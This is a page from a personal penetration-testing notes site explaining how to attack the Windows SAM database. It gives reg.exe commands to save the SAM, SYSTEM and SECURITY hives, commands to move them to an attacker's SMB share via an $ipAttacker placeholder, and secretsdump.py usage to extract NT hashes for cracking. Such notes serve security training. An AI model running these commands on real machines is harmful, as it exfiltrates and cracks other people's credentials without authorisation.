

repository: amandaguglieri/hackinglife · page: attacking-sam/index.html · generator: mkdocs

---
title: Attacking SAM
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
---
# Attacking SAM

[See Windows credentials storage](windows-credentials-storage.md).

## Dumping SAM Locally

### 1. Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. 

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

Launching CMD as an admin will allow us to run reg.exe to save copies of the registry hives.

```cmd-session
reg.exe save hklm\sam C:\sam.save

reg.exe save hklm\system C:\system.save

reg.exe save hklm\security C:\security.save
```

Transfer the registry hives to our attacker machine, for instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
move sam.save \\$ipAttacker\CompData
move system.save \\$ipAttacker\CompData
move security.save \\$ipAttacker\CompData
```

### 2. Dumping Hashes with Impacket's secretsdump.py

```bash
locate secretsdump 
```

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Secretsdump dumps the local SAM hashes and would've 
also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. 

The first step secretsdump executes is targeting the system bootkey before proceeding to dump the LOCAL SAM hashes. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
(uid:rid:lmhash:nthash)
```

Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS. Knowing this, we can copy the NT hashes associated with each user account into a text file and start cracking passwords.
